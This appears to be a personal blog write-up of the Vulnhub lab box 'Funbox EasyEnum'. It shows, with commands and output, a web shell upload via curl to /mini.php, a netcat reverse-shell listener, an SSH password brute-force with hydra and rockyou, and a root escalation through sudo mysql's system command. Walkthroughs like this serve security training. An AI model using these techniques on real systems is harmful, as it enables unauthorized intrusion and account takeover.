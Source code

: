 ```yaml
---
title: Vulnhub - Funbox EasyEnum
description: My writeup on Funbox EasyEnum box.
categories:
 - vulnhub
tags: vulnhub gobuster curl web-shell hydra mysql
---
```


![](https://i.imgur.com/6ghxvXy.png)

## Box Stats

| Box Info      | Details       | 
| ------------- |:-------------:| 
| Box Name :    | **Funbox EasyEnum**  | 
| Series :      | **Funbox**           |
| Difficulty :  | **Easy/Medium**      |   
| Release Date :| **19 Sep 2020**      |    
| OS :          | **GNU/Linux**        |   
| Maker :       | [@0815R2d2](https://twitter.com/@0815R2d2){:target="_blank"}      | 
| Download :    | [Funbox EasyEnum](https://www.vulnhub.com/entry/funbox-easyenum,565/){:target="_blank"}      | 

## Summary

Funbox EasyEnum was a pretty easy box. We start by finding a php web shell so this is pretty straightforward and we get a shell as www-data. First privesc is about brute force on user goat & final one we exploit mysql to spawn a root shell. Let’s pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.17 
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-09 02:01 EEST
Nmap scan report for funbox7.zte.com.cn (192.168.1.17)
Host is up (0.00049s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:DE:A0:BD (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.40 seconds
$ nmap -p 22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-09 02:01 EEST
Nmap scan report for funbox7.zte.com.cn (192.168.1.17)
Host is up (0.00035s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c:52:32:5b:8b:f6:38:c7:7f:a1:b7:04:85:49:54:f3 (RSA)
|   256 d6:13:56:06:15:36:24:ad:65:5e:7a:a1:8c:e5:64:f4 (ECDSA)
|_  256 1b:a9:f3:5a:d0:51:83:18:3a:23:dd:c4:a9:be:59:f0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

Port 80 has the default apache2 page, without wasting more time lets fire up a `gobuster` scan.

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html -o gobuster.txt
/index.html (Status: 200)
/javascript (Status: 301)
/mini.php (Status: 200)
/robots.txt (Status: 200)
/secret (Status: 301)
/phpmyadmin (Status: 301)
```

Lot of stuff, `/mini.php` is a php web shell. We can upload our files here:

![](https://i.imgur.com/Uj96Eun.png)

## Shell as www-data

I like to use the CLI way to do my stuff, i'll show you a `curl` trick to upload files. First let's take a look into the html code we have to find the `name`.

```html
<input type="file" name="file"/>
```

So our command will be:

```
$ curl -s -F "file=@shell.php" http://$ip/mini.php > /dev/null
````

Our file successfully uploaded:

![](https://i.imgur.com/Ug5xwof.png)

Now we can simply execute it & get a shell back:

```
$ curl -s http://$ip/shell.php
```

```
$ nc -lvp 5555
listening on [any] 5555 ...

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@funbox7:/$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as goat

I enumerated a lot but i wasn't able to find something exploitable. Anyway system has lot of users:

```
www-data@funbox7:/$ cat /etc/passwd | cut -d ':' -f 1,7 | grep "bash\|sh" | grep -v "sshd"
root:/bin/bash
karla:/bin/bash
harry:/bin/bash
sally:/bin/bash
goat:/bin/bash
oracle:/bin/bash
lissy:/bin/sh
```

I tried SSH brute force with all of them only user's `goat` password found:

```
$ hydra -l goat -P /usr/share/wordlists/rockyou.txt $ip ssh

[DATA] attacking ssh://192.168.1.16:22/
[STATUS] 181.00 tries/min, 181 tries in 00:01h, 14344223 to do in 1320:50h, 16 active
[STATUS] 134.67 tries/min, 404 tries in 00:03h, 14344000 to do in 1775:15h, 16 active
[STATUS] 117.29 tries/min, 821 tries in 00:07h, 14343583 to do in 2038:17h, 16 active
[22][ssh] host: 192.168.1.16   login: goat   password: thebest
1 of 1 target successfully completed, 1 valid password found
```

```
www-data@funbox7:/$ su - goat
Password: thebest

goat@funbox7:~$ whoami;id
goat
uid=1003(goat) gid=1003(goat) groups=1003(goat),111(ssh)
```

## Shell as root

`sudo -l` shows that we can execute `mysql` as root:

```
goat@funbox7:~$ sudo -l
Matching Defaults entries for goat on funbox7:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User goat may run the following commands on funbox7:
    (root) NOPASSWD: /usr/bin/mysql
```

We can simply exploit that using the `system` function of `mysql`.

```
goat@funbox7:~$ sudo mysql -s
mysql> system bash
root@funbox7:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

## Reading the flag(s)

![](https://i.imgur.com/M5DQa7b.png)

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"} :blush:

Until next time keep pwning hard! :fire:
